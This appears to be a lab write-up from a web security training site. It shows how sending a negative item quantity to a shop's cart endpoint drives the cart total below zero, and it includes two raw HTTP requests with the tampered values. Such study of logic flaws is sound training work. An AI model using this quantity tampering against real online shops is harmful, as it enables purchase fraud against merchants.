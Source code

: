 ### High-level logic vulnerability

The shopping application below performs the following POST request when a user removes an item from their cart:

```http
POST /cart HTTP/2
Host: 0ade003a0376404b8243e26b006f00e3.web-security-academy.net
Cookie: session=qmmsLBX0Zre7Fr39IsSjfedj32wpBgUg
Content-Length: 34
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0ade003a0376404b8243e26b006f00e3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ade003a0376404b8243e26b006f00e3.web-security-academy.net/cart
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

productId=1&quantity=-1&redir=CART
```

It follows the same logic from the request used to add one item to the user’s cart, but with a negative value, subtracting the item.

This may seem okay, as the button that removes the item from the cart is not present when the cart is empty, but this doesn’t stop the client to send that same request again, but with the empty cart, resulting in the application to ad `-x` items to the user, and consequently, also a negative value relative to the amount of items added.

```http
POST /cart HTTP/2
Host: 0ade003a0376404b8243e26b006f00e3.web-security-academy.net
Cookie: session=qmmsLBX0Zre7Fr39IsSjfedj32wpBgUg
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0ade003a0376404b8243e26b006f00e3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

productId=2&quantity=-229&redir=CART
```
